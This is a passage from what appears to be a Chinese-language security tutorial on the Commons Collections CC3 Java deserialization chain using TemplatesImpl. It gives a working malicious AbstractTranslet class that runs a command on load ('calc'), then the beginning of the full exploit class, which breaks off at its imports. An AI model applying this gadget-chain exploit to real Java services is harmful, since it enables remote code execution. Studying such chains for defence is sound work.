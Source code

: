 [![](assets/1701612311-4e9d7abf1b5f33570ab5f3aedf2ac0f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235420-5d89bc48-20cc-1.png)

所以我们要设置执行代码的父类是对应的ABSTRACT\_TRANSLET值，同时因为父类是一个抽象类，还要实现里面的方法：

[![](assets/1701612311-e8935a99b3e75366fa7fce6a6e96d057.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235444-6bd7e9be-20cc-1.png)

### EXP(CC3Templateslmpl):

```plain
Demo.java
package EXP;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Demo extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (IOException e){
           e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后我们再利用CC1的链将前半段链子补全得到最后CC6的EXP：

```plain
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
```